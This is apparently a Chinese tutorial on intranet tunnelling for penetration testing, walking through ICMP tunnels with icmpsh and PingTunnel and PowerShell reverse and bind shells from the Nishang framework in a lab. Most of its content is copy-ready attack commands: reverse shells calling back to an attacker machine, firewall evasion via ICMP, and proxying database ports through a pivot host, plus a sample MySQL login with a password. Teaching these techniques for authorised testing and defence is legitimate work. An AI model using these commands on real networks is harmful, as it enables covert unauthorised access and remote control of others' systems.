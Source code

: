 # 内网穿透-隧道通信

### 基于SSH的隧道





### ICMP隧道

#### 一、icmpsh工具

ICMP隧道简单实用，是一个比较特殊的协议。在一般的通信协议里，如果两台设备要进行通信，肯定需要开放端口，而在ICMP协议下就不需要。最常见的ping命令就是利用的ICMP协议，攻击者可以利用命令行得到比回复更多的ICMP请求。在通常情况下，每个ping命令都有相应的回复与请求。

在一些网络环境中，如果攻击者使用各类上层隧道(例如：HTTP隧道、DNS隧道、常规正/反向端口转发等)进行的操作都失败了，常常会通过ping命令访问远程计算机，尝试建立ICMP隧道，将TCP/UDP数据封装到ICMP的ping数据包中，从而穿过防火墙(防火墙一般不会屏蔽ping的数据包)，实现不受限制的访问访问。

常见的ICMP隧道工具有：icmpsh、PingTunnel、icmptunnel、powershell icmp等。本节内容主要讲解icmpsh工具，下载地址：https://github.com/inquisb/icmpsh

1、在目标主机：Windows 2016上运行 icmpsh.exe

```
icmpsh.exe -t 192.168.12.135       # 其他参数请参考 -h
```

2、在攻击主机：Kali 上运行以下指令

```
python2 ./icmpsh_m.py 192.168.12.135 192.168.12.136
```

因为icmpsh工具要代替系统本身的ping命令的应答程序，所以需要输入如下命令来关闭本地系统的ICMP答应（如果要恢复系统答应，则设置为0），否则Shell的运行会不稳定。在Kali上修改以下参数：

```
# sysctl -w net.ipv4.icmp_echo_ignore_all=1    # 设置为0可以还原
```

目前Python2.7的版本已经不是Kali系统的默认设置，Kali最新版本运行python或pip命令时，均使用的是Python3的版本，而icmpsh的Python脚本依然支持的是Python2，所以需要先安装Python2.7的pip命令：

```
# curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py 
# python2 get-pip.py
```

并将pip2导出到环境变量中：export PATH=/home/denny/.local/bin:$PATH

如果提示：ERROR: Command errored out with exit status 1: python setup.py egg_info Check the logs for full command output.的错误，说明PIP和setuptools没有更新到最新版本，运行以下命令完成更新：

```
# pip install --upgrade pip
# pip install --upgrade setuptools
```

如果提示：You need to install Python Impacket library first，则运行以下命令序列，先行安装依赖。

```
# pip2 install impacket  安装完成后再次尝试，如果清空有问题，尝试以下操作：

# git clone https://github.com/SecureAuthCorp/impacket.git
# cd impacket
# pip2 install -r requirements.txt
# python2 setup.py install
```

3、再次运行 icmpsh.exe ，并运行 icmpsh_m.py 完成反弹，可以执行任意Windows命令，监控通信过程，全是ICMP协议。

![image-20211207001728681](https://woniumd.oss-cn-hangzhou.aliyuncs.com/security/dengqiang/20211207001728.png)

并且通过分析数据包发现，当响应的内容太多时，icmpsh会将内容分成多个数据包进行发送。

> 如果Windows反弹回来的命令行有乱码，则直接执行：chcp 65001的命令即可修正。

#### 二、PowerShell ICMP客户端

icmpsh.exe只能运行于Windows环境，而如果使用PowerShell ICMP客户端，则可以直接运行于任何有PowerShell的环境中。

1、在Kali上正常运行icmpsh

```
python2 ./icmpsh_m.py 192.168.12.135 192.168.12.136
```

2、在Windows环境运行NiShang中的icmp模块：

下载 NiShang 框架：https://github.com/samratashok/nishang，然后进入PowerShell环境中，执行以下指令

```
cd C:\ME\nishang-0.7.6\Shells
Import-Module .\Invoke-PowerShellIcmp.ps1
Invoke-PowerShellIcmp 192.168.12.135
```

此时，在Kali中获取Windows 2016的反弹Shell。

3、顺带了解一下NiShang框架中基于TCP的正向连接Shell

在Windows 2016上执行：

```
Import-Module .\Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Bind -Port 6666
```

此时将进入监听状态，然后在Kali上运行以下命令进行正向连接：

```shell
nc -nv 192.168.12.136 6666

(UNKNOWN) [192.168.0.165] 6666 (?) open
Windows PowerShell running as user Administrator on WIN-E9RKNSECG6A
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\ME\nishang-0.7.6\Shells>
```

4、使用TCP/UDP协议的反弹Shell

```
先在Kali上运行：
nc -lvp 5555 (TCP协议)  或  nc -luvp 5555 (UDP协议)

再在Windows上运行：
cd C:\ME\nishang-0.7.6\Shells\
Import-Module .\Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.12.135 -Port 5555

此时，Kali上获取反弹Shell成功。如果是UDP协议，则使用 Invoke-PowerShellUdp
```

#### 三、PingTunnel

Kali内置ptunnel，如需要单独下载，下载地址为：http://www.cs.uit.no/~daniels/PingTunnel/#download，Windows版本可以寻找别人已经编译好的exe文件，如：https://bbs.pediy.com/thread-256599.htm。但是目前在Windows环境已经编译好的版本不稳定，建议如果跳板机为Linux环境时使用。

1、如果需要安装在CentOS环境中，安装步骤如下：

```shell
# 安装libpcap的依赖环境
yum -y install byacc
yum -y install flex bison

# 安装libpcap依赖库
wget http://www.tcpdump.org/release/libpcap-1.9.0.tar.gz
tar -xzvf libpcap-1.9.0.tar.gz
cd libpcap-1.9.0
./configure
make && make install

# 安装PingTunnel
wget http://www.cs.uit.no/~daniels/PingTunnel/PingTunnel-0.72.tar.gz
tar -xzvf PingTunnel-0.72.tar.gz
cd PingTunnel
make && make install

# 如果运行ptunnel时出现以下错误：
error while loading shared libraries: libpcap.so.1: cannot open shared object file: No such file or directory
# 则作如下操作：
[root@centqiang ~]# find / -name libpcap.so
/usr/local/lib/libpcap.so
找到libpcap.so目录为：/usr/local/lib
编辑：/etc/ld.so.conf，在末尾加上：/usr/local/lib
再运行：ldconfig
```

2、将该CentOS也配置双网卡，并扮演Windows2016的跳板角色，在CentOS机器上编译和运行ptunnel服务器端：

```
./ptunnel
```

3、在攻击机kali上运行客户端，并连接到ptunnel服务器，并指定代理端口和目标IP和端口：

```
sudo ptunnel -p 192.168.12.149 -lp 8899 -da 10.10.10.133 -dp 80
```

4、直接访问 localhost:8899便可以访问到 10.10.10.129:80 端口

> 为ptunnel 添加 -x 参数， 可以设置连接密码（服务器和客户端均添加 -x 参数并且密码一致才可以连接。

![image-20230314155851095](内网穿透-隧道通信.assets/image-20230314155851095.png)

![image-20230314155905812](内网穿透-隧道通信.assets/image-20230314155905812.png)

5、代理非HTTP端口

如果要使用ptunnel隧道代理非HTTP端口，如MySQL的3306端口，则可以保持跳板机的服务器端启动命令不变，而将客户端命令的端口进行修改：

```
ptunnel -p 192.168.12.149 -lp 8899 -da 10.10.10.133 -dp 3306
```

然后使用MySQL命令访问本地的8899端口即可实现远程访问：

```
# mysql -uqiang -p123456 -h127.0.0.1 -P 8899
```

#### 四、使用Go语言版本的pingtunnel

1、在 https://github.com/esrrhs/pingtunnel 上下载pingtunnel对应版本

2、在CentOS跳板机中运行服务器端：

```
# ./pingtunnel -type server
```

3、在Kali中运行客户端并进行Socks5代理：

```
# ./pingtunnel  -type client -l :1080 -s 192.168.112.188 -sock5 1
```

4、或直接代理TCP的某个端口

```
# ./pingtunnel -type client -l :3306 -s 192.168.112.188 -t 10.10.10.129:3306 -tcp 1此时运行以下指令登录MySQL：# mysql -uqiang -p123456 -h127.0.0.1 -P 3306
```

5、运行过程如果出现过多日志，则可以使用 -nolog 1 -noprint 1 来禁用日志信息

```
# ./pingtunnel -type server -nolog 1 -noprint 1# ./pingtunnel -type client -l :3306 -s 192.168.112.188 -t 10.10.10.129:3306 -tcp 1 -nolog 1 -noprint 1
```

#### 五、icmptunnel

操作和用法类似